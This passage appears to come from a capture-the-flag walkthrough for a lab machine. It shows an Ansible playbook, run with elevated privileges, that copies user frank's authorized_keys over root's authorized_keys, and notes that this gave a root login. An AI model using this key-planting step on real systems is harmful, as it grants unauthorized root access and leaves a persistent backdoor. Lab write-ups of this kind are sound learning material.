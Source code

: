 Another is to add the same public key we used for `frank` user to `root` user’s `authorized_keys` 

```xml
- name: Copy id_rsa file to /root/.ssh/
  hosts: localhost
  become: yes

  tasks:
    - name: Copy id_rsa file
      copy:
        src: /home/frank/.ssh/authorized_keys
        dest: /root/.ssh/authorized_keys
        mode: '0600'
      register: copy_result

    - name: Display copy result
      debug:
        var: copy_result
```

Doing so, we were able to login to the  target as `root`

![](/img/Inject_-_Seasonal_9e3607466f6a4ad49fada783b796669f/Untitled_12.png)


